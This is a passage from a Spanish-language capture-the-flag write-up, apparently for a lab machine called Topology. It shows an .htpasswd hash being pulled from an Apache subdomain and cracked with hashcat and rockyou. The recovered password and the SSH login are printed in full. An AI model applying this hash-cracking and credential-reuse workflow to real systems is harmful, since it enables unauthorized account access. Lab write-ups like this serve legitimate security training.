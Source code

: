 En el archivos de configuración de Apache podemos ver el directorio que se usa para cada virtual host, sabiendo que está pidiendo credenciales podemos mirar si en la carpeta de este subdominio hay un archivo `.htpasswd`. Y...

![htpasswd](/assets/writeups/topology/8.png)

Estamos de suerte, y la contraseña tampoco es robusta.

```bash
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
Time.Started.....: Fri Nov  3 14:13:38 2023 (1 min, 25 secs)
Time.Estimated...: Fri Nov  3 14:15:03 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    11923 H/s (10.52ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 997376/14344384 (6.95%)
Rejected.........: 0/997376 (0.00%)
Restore.Point....: 996352/14344384 (6.95%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidate.Engine.: Device Generator
Candidates.#1....: canadacanada -> cajun123
Hardware.Mon.#1..: Temp: 90c Util: 95%
```

Estas credenciales son válidas para la usuaria `vdaisley`, y en su directorio personal podremos tomar la primera flag

```bash
❯ /usr/bin/ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217s password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Nov  3 14:16:20 2023 from 10.10.14.182
vdaisley@topology:~$ ls -la
total 32
drwxr-xr-x 4 vdaisley vdaisley 4096 Nov  3 14:16 .
drwxr-xr-x 3 root     root     4096 May 19 13:04 ..
lrwxrwxrwx 1 root     root        9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 vdaisley vdaisley  220 Jan 17  2023 .bash_logout
-rw-r--r-- 1 vdaisley vdaisley 3771 Jan 17  2023 .bashrc
drwx------ 2 vdaisley vdaisley 4096 May 19 13:04 .cache
```
